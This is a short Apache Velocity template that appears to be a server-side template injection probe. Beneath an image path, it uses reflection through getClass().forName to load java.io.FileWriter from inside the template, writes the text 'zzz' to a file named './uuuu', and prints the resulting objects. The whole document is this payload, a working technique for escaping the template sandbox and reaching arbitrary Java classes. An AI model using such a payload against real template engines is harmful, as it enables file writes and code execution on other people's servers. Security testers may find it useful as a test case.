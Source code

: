 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b=$a("./uuuu"))
#set ($c=$b.write("zzz"))
#set ($d = $b.flush())
#set ($f = $b.close())
$a
$b
$c
$d
$f
$monkey
